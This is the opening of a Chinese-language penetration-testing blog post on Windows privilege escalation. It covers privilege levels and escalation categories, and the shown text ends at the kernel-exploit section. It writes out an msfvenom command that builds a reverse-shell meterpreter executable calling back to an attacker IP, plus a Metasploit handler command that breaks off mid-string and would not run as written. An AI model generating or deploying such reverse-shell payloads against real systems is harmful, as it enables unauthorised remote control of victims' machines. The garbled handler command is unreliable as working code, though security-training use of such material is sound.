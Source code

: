 ```yaml
---
# 这是页面的图标
icon: script
# 这是文章的标题
title: Windows提权方法
# 设置作者
author: 以下文章来源于EchoSec ，作者鱼白
# 设置写作时间
time: 2022-04-23
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 提权
typora-root-url: ..\..\..\.vuepress\public
comment: false
---
```


## 



## 基础

1、基础：user、administrator、System

2、提权方式：横向提权和纵向提权

3、提权方法：内核溢出漏洞提权、错误的系统配置提权、滥用高权限令牌提权、组策略首选提权、数据库提权、web中间件漏洞提权、DLL劫持提权、第三方软件/服务提权等

前提：

此时假设我们通过一系列前期渗透，已经成功获得了目标机的meterpreter shell，当前权限为user，我们想获取系统的system权限



![图片](/assets/img/640-165069277425449.png)

4、生成msf木马：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.253.129 lport=4444 -f exe -o test.exe
```



5、一键监听命令(监听的ip和端口根据实际情况自行更换)

```
msfconsole -x "use exploit/multi/handler; set payload windows/x64/mete
set LHOST 192.168.253.1
set LPORT 4444
```

## 一、内核溢出漏洞提权
